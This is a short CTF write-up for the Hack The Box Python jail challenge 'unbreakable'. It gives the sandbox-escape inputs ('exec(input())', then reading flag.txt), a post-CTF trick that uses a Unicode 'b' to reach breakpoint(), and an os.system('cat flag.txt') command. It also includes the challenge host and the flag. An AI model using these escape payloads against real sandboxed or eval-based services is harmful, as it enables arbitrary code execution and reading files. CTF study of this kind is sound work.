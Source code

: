 # unbreakable

Think you can escape my grasp? Challenge accepted! 
I dare you to try and break free, but beware, it won't be easy. 
I'm ready for whatever tricks you have up your sleeve!

## Solution

```txt
input
globals

open('flag.txt','r').read

exec(input())

exec(input())
print(open("flag.txt", "r").read())
```

`nc 94.237.50.221 53625`

HTB{3v4l_0r_3vuln??}

## Post-CTF

https://youtu.be/EGItzKCxTdQ?si=SblP19F4q7klkAPx&t=8572

Apparently python accepts unicode 'b' (U+FF42)

pass breakpoint with a unicode 'b'

```
# opens python debugger

import os
os.system('cat flag.txt')
```

